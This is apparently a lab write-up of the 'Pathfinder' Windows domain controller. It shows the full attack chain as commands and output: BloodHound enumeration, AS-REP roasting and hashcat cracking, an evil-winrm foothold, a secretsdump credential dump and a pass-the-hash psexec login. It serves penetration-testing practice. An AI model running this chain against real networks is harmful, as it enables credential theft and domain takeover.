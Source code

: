 # Pathfinder (starting point)

## Discovery

`nmap` gives us:

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-04-29 23:51:28Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGACORP.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGACORP.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc         Microsoft Windows RPC
49683/tcp open  msrpc         Microsoft Windows RPC
49698/tcp open  msrpc         Microsoft Windows RPC
49718/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Vista SP1 (93%), Microsoft Windows Server 2012 (91%), Microsoft Windows 10 1709 - 1909 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 Update 1 (91%), Microsoft Windows Longhorn (90%), Microsoft Windows Server 2016 (90%), Microsoft Windows Server 2008 SP2 (90%), Microsoft Windows 7 or Windows Server 2008 R2 (89%), Microsoft Windows 10 1709 - 1803 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: PATHFINDER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h10m45s
| smb2-security-mode:
|   2.02:
|_    Message signing enabled and required
| smb2-time:
|   date: 2021-04-29T23:52:25
|_  start_date: N/A
```

## Exploring LDAP

First we extract the directory topology using:

`bloodhound-python -d megacorp.local -u sandra -p "Password1234!" -gc
pathfinder.megacorp.local -c all -ns 10.10.10.30`

Then we start neo4j / bloodhound & import the json data.

Running the predefined queries, we can list the roastable users:

> SVC_BES@MEGACORP.LOCAL is "ASREP roastable" (preauthentication disabled)

The TGT can be retrieved without entering the password for "svc_bes":

`GetNPUsers.py megacorp.local/svc_bes -request -no-pass -format hashcat -dc-ip 10.10.10.30 > tgt`

## Cracking the TGT

`hashcat -a 0 -m 18200 tgt /usr/share/wordlists/passwords/rockyou.txt`

> Sheffield19


## Foothold

We can now connect as `svc_bes` with WinRM:

`evil-winrm -i 10.10.10.30 -u svc_bes -p Sheffield19`

> b05fb166688a8603d970c6d033f637f1

## Escalation

`svc_bes`

```
secretsdump.py -dc-ip 10.10.10.30 MEGACORP.LOCAL/svc_bes:Sheffield19@10.10.10.30

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:f9f700dbf7b492969aac5943dab22ff3:::
svc_bes:1104:aad3b435b51404eeaad3b435b51404ee:0d1ce37b8c9e5cf4dbd20f5b88d5baca:::
sandra:1105:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
PATHFINDER$:1000:aad3b435b51404eeaad3b435b51404ee:7b6e5eac739f95b5eadf04d271ea431f:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:056bbaf3be0f9a291fe9d18d1e3fa9e6e4aff65ef2785c3fdc4f6472534d614f
Administrator:aes128-cts-hmac-sha1-96:5235da455da08703cc108293d2b3fa1b
Administrator:des-cbc-md5:f1c89e75a42cd0fb
krbtgt:aes256-cts-hmac-sha1-96:d6560366b08e11fa4a342ccd3fea07e69d852f927537430945d9a0ef78f7dd5d
krbtgt:aes128-cts-hmac-sha1-96:02abd84373491e3d4655e7210beb65ce
krbtgt:des-cbc-md5:d0f8d0c86ee9d997
svc_bes:aes256-cts-hmac-sha1-96:2712a119403ab640d89f5d0ee6ecafb449c21bc290ad7d46a0756d1009849238
svc_bes:aes128-cts-hmac-sha1-96:7d671ab13aa8f3dbd9f4d8e652928ca0
svc_bes:des-cbc-md5:1cc16e37ef8940b5
sandra:aes256-cts-hmac-sha1-96:2ddacc98eedadf24c2839fa3bac97432072cfac0fc432cfba9980408c929d810
sandra:aes128-cts-hmac-sha1-96:c399018a1369958d0f5b242e5eb72e44
sandra:des-cbc-md5:23988f7a9d679d37
PATHFINDER$:aes256-cts-hmac-sha1-96:4869dc589541f0cc1a9dcf3899ecb113667f61505eb962c725a936dfc4b2e89f
PATHFINDER$:aes128-cts-hmac-sha1-96:320fd3afa45271c673d52b46d0f15db9
PATHFINDER$:des-cbc-md5:75da1cbadc458ce0
[*] Cleaning up...
```

```
psexec.py megacorp.local/administrator@10.10.10.30 -hashes aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18

```


